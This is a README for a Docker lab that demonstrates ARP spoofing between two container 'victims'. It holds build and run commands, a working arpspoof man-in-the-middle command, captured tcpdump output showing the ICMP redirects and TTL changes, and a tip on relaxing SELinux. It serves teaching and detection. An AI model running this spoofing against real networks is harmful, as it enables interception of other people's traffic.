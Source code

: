 # ARP Spoofing Lab in Docker

Inspired from https://dockersec.blogspot.com/2017/01/arp-spoofing-docker-containers_26.html 

We create:
- Two "victim" boxes.
- One "attacker" ArpSpoofer.
- An optional "observer" TcpDumper that can be attached to different network interface.


## Buid
  
```
sudo docker build --tag=arpspoofer --build-arg http_proxy=$http_proxy --build-arg https_proxy=https_proxy  arpspoofer
sudo docker build --tag=tcpdumper  --build-arg http_proxy=$http_proxy --build-arg https_proxy=$https_proxy tcpdumper
```

I tried `docker-compose`, but to open terms, a simple script is easier.

## Run
 
Launch 4 terminals:
```
gnome-terminal --title='Box1' -- sudo docker run -it --rm --name box1 busybox
gnome-terminal --title='Box2' -- sudo docker run -it --rm --name box2 busybox
gnome-terminal --title='ArpSpoofer' -- sudo docker run -it --rm --name arpspoofer arpspoofer
gnome-terminal --title='TcpDumper'  -- sudo docker run -it --rm  --net=container:arpspoofer --name tcpdumper tcpdumper
```

1. Check the IPs in Box1 and 2 `ip addr` 
1. Watch the ARP table on Box1 `watch arp -na`
1. Start pinging Box1 from Box2 `ping 172.17.0.x` (replace with Box1 IP)

Usually we would spoof the gateway, but here we spoof both hosts. Since they are on the same LAN, they do not need the Gateway to communicate. (Replace IP with Box1 and 2!)
`/usr/sbin/arpspoof -r -i eth0 -t 172.17.0.3 172.17.0.2`

You should see the traffic in TcpDumper (note that the container can be attached to other boxe's network). You can also capture traffic from within the host on interface `Docker0` with Wireshark. 

### SELinux and tcpdump

TcpDump might not work with SELinux enabled. But: TcpDump is optional (you can use WireShark) and you can either temporarily disble SELinux or add an exception `sudo semodule -X 300 -i selinux/my-tcpdump.pp` (you can remove it after with `-r` instead of `-i`)


## Observations
  
Keep in mind that it is a very simple attack. We didn't do anything to be stealthy. 

The capture file is `result.pcapng`. Capture was done on the host interface `Docker0`.

- Box1 has 172.17.0.2 02:42:ac:11:00:02
- Box2 has 172.17.0.3 02:42:ac:11:00:03
- ArpSpoofer has 172.17.0.4 02:42:ac:11:00:04
- TcpDump has the same as ArpSpoofer 

### ping side
 
No errors. The only hint is the `ttl` decreasing from 64 to 63. 
```
64 bytes from 172.17.0.2: seq=12 ttl=64 time=0.147 ms
64 bytes from 172.17.0.2: seq=13 ttl=64 time=0.149 ms
64 bytes from 172.17.0.2: seq=14 ttl=63 time=0.516 ms
64 bytes from 172.17.0.2: seq=15 ttl=63 time=0.439 ms
...
64 bytes from 172.17.0.2: seq=129 ttl=64 time=0.153 ms
^C
--- 172.17.0.2 ping statistics ---
130 packets transmitted, 130 packets received, 0% packet loss
round-trip min/avg/max = 0.058/0.207/0.859 ms

```

### Tcpdump side

We can see the "nefarious" ARP messages:
```
10:41:37.882841 ARP, Reply 172.17.0.2 is-at 02:42:ac:11:00:04, length 28
10:41:37.883033 ARP, Reply 172.17.0.3 is-at 02:42:ac:11:00:04, length 28 
```

Here we see the ICMP messages:
```
10:41:38.095909 IP 172.17.0.3 > 172.17.0.2: ICMP echo request, id 2304, seq 14, length 64
10:41:38.095962 IP 172.17.0.4 > 172.17.0.3: ICMP redirect 172.17.0.2 to host 172.17.0.2, length 92
10:41:38.095970 IP 172.17.0.3 > 172.17.0.2: ICMP echo request, id 2304, seq 14, length 64
10:41:38.096039 IP 172.17.0.2 > 172.17.0.3: ICMP echo reply, id 2304, seq 14, length 64
10:41:38.096051 IP 172.17.0.4 > 172.17.0.2: ICMP redirect 172.17.0.3 to host 172.17.0.3, length 92
10:41:38.096055 IP 172.17.0.2 > 172.17.0.3: ICMP echo reply, id 2304, seq 14, length 64
```
We can see:
- Box2 request goes to ArpSpoofer
 - ArpSpoofer sends an ICMP redirect, telling Box2 to request Box1. 
 - ArpSpoofer forwards the packet to Box1 (decreases `ttl`)
- Box1 reply goes to ArpSpoofer
 - ArpSpoofer sends an ICMP redirect, telling Box1 to reply to Box2
 - ArpSpoofer forwards the packet to Box2 (decreases `ttl`)

You can select the same sequence in Wireshark with `icmp.seq == 14`. Wireshark interpretation is a bit off.

Box1 receives the ICMP redirect after it already has sent the reply. Looks like it is then ignored. 

## Cleanup

By default Docker will keep images and containers.
Here are some docker commands if you are not familiar with them:
- `sudo docker <image|container> ls -a` will show images or containers
- `sudo docker <image|container> prune` will remove unused images or containers.

Note that the `--rm` option in the run, tells docker to remove the container after use. It is normal if there are no container after running the lab.

Do not forget to eventually `sudo setenforce Enforcing` or remove the SELinux module if you installed it.
